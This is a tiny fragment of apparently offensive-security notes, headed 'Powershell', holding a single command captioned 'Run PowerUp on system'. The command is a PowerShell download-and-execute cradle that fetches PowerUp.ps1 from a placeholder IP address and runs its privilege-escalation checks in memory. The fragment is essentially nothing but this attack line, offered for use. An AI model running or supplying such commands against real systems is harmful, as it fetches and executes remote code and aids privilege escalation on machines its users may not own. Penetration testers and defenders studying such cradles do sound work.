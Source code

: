 # Powershell

```powershell "IEX (New-Object Net.WebClient).DownloadString('<ip_address>/PowerUp.ps1'); Invoke-AllChecks" ```

Run PowerUp on system
